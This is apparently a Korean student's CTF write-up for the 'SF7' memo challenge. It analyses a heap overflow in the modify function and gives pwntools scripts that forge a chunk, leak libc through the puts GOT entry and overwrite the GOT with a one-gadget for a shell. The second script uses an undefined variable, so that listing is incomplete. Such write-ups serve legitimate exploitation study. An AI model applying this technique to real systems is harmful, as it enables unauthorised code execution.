

# SF7

어서 빨리 포너블 스터디 과제를 해야해서 이것밖에 공부할 수 없었다,,,,

## 분석


<main>


malloc을 두 번을 하게 되고 한 공간에는 author가 들어가게 된다.

<create>


note size를 받고 memo의 내용을 받고 malloc을 한 부분에 많은 정보를 저장 한다. 그래서 직접 실행 시켜보며 메모리가 어떻게 변화하는 지 봐야 할 것 같다.


author를 받은 이후


1번 create를 하고 40size, AAAAAAAAAAAAAAAA을 한 이후


2번 create를 하고 70size, BBBBBBBBBBBBBBBB한 이후

author를 저장한 chunk밑에는 현재 메모?를 가르키고 있었고, 가르켜 지고 있는 현재 메모는 해당 메모의 정보와 다음 메모의 주소를 가지고 있었다. 

<show>


현재까지 쓰인 모든 메모들의 author, content, 저장 시간?을 보여준다. 

<modify>


메모의 내용을 입력 받고 같은 내용이 있는 지와 비교하고 현재 author와 일치한 메모를 찾는다.

만약 있다면 96만큼 고정적으로 입력 받는다. —> 무언가 취약점이 될 것 같은 느낌적인 느낌...?

뭔가 해당 청크를 넘어서 다른 청크의 값을 modify 할 수 있을 것 같다.

<delete>


modify와 초반은 비슷하게 memo의 내용을 입력받고 해당 내용이 있는 지와 현재의 author와 일치하는 지를 찾고 있다면 free를 해준다. 

근데 뭔가 내가 생각하는 것과는 다르게 free가 되었다.


많은 삽질의 결과로,,,, double free bug는 

```c
int *a = malloc(8);
int *b = malloc(8);

free(a);
free(b);
free(a);
```

와 같은 형식으로 진행이 되어야 하는데 이 문제는 메모의 내용을 받고 내용과 일치하는 것이 있다면 일치하는 것을 free를 하고 일치하는 것이 없다면 free를 하지않아 duble free bug를 못하는 것 같다,,,, 

<change author>


그런데 이제 저자를 바꿨을 때 기존에 있던 저자를 0으로 초기화 하고 새로운 청크를 만든 다음 그곳에 새로운 저자를 저장한다. 

또한 0으로 초기화한 경우 초기화한 청크를 재사용하는 것을 볼 수 있다.


## Exploit

위에서 말했듯 double free bug를 이용을 할 수는 없을 것 같고 다른 방법을 사용해야 할 것 같다는 느낌이 크게 느껴졌다.

그래서 어떻게 exploit을 할까 생각을 해보니

1. modify에서 해당 청크를 넘어서 쓸 수 있다.
2. show는 어떤 주소의 값이든 보여준다.

이 두 취약점을 이용하면 될 것 같다.

그래서 modify로 fake chunk를 만들어서 저자 정보와 내용 주소를 got값으로 한 다음? 

show를 하면 libc주소가 leak이 될 것이고 one gadget 주소를 구한 다음 modify를 통해 got를 one gadget 주소로 덮으면 되지 않을 까라 생각을 했다.

```python
from pwn import *

p = process('./sf7')
e = ELF('./sf7')

#log
context.log_level = 'debug'

def create(size, content):
    p.recvuntil("> ")
    p.sendline("1")
    
    p.recvuntil('size : ')
    p.sendline(str(size))
    p.recvuntil("memo : ")
    p.send(content)
    
def show():
    p.recvuntil("> ")
    p.sendline("2")

def modify(old, new):
    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("memo : ")
    p.send(old)
    p.recvuntil("memo : ")
    p.send(new)
    
def delete(content):
    p.recvuntil("> ")
    p.sendline("4")
    p.recvuntil("memo : ")
    p.send(content)

def change(name):
    p.recvuntil("> ")
    p.sendline("5")
    p.recvuntil(" : ")
    p.send(str(name))

p.recvuntil('name : ')
p.send('leeminjea')

create(40, 'A'*8)
create(40, 'B'*8)
create(40, 'C'*8)

input()
pay = b''
pay += b'B'*0x8 + p64(0)
pay += p64(0) + p64(0x31)
pay += p64(0) + p64(e.got['puts'])
pay += p64(e.got['puts'])
modify('BBBBBBBB\x00', pay)

show()

p.interactive()
```

그렇지만 계속 eof가 뜬다 모지,,,


하지만 고것은 제 작은 실수 였구요

modify로 덮은것을 잘 못 덮었다. 그래서 처음 create로 청크를 만들 때 size를 0x10으로 하니 잘되었다. 또는 p64(0)을 2개를 더 넣으면 잘될 것이다.



^오^ leak이 잘 되었다. 

```python
from pwn import *

p = process('./sf7')
e = ELF('./sf7')

pop_rdi = 0x00000000004010d3

#log
context.log_level = 'debug'

def create(size, content):
    p.recvuntil("> ")
    p.sendline("1")
    
    p.recvuntil('size : ')
    p.sendline(str(size))
    p.recvuntil("memo : ")
    p.send(content)
    
def show():
    p.recvuntil("> ")
    p.sendline("2")

def modify(old, new):
    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("memo : ")
    p.send(old)
    p.recvuntil("memo : ")
    p.send(new)
    
def delete(content):
    p.recvuntil("> ")
    p.sendline("4")
    p.recvuntil("memo : ")
    p.send(content)

def change(name):
    p.recvuntil("> ")
    p.sendline("5")
    p.recvuntil(" : ")
    p.send(str(name))

p.recvuntil('name : ')
p.send('leeminjea')

create(0x10, 'A'*8)
create(0x10, 'B'*8)
create(0x10, 'C'*8)

pay = b''
pay += b'B'*0x8 + p64(0)
pay += p64(0) + p64(0x31)
pay += p64(0) + p64(e.got['puts'])
pay += p64(e.got['puts'])
input()
modify('BBBBBBBB\x00', pay)

show()
p.recvuntil("[5]\n")
libc_puts = u64(p.recv(6) + b'\x00\x00')
print(hex(libc_puts))
libc_base = libc_puts - 0x6f6a0
print(hex(libc_base))
sys = libc_base + 0x453a0
binsh = libc_base + 0x18ce57

change(p64(libc_puts))  # 저자 변경 

#pay = b''
#pay += p64(pop_rdi) + p64(binsh)
#pay += p64(sys)  # one 
pay = b''
pay += p64(one)

modify(p64(libc_puts), pay)

p.interactive()
```

뭔가 원하는 대로 한 것 같지만??


어림도 없지

뭐지,,, 왜 modify가 되지 않는거지,,

아! change 함수가 틀렸었다!!
```python
def change(name):
    p.recvuntil("> ")
    p.sendline("5")
    p.recvuntil(" : ")
    p.send(str(name))
```
이었지만

```python
def change(name):
    p.recvuntil("> ")
    p.sendline("5")
    p.recvuntil(" : ")
    p.send(name)
```
으로 변경하고 one gadget으로 덮은 결과 exploit에 성공하였다.


༼ つ ◕_◕ ༽つ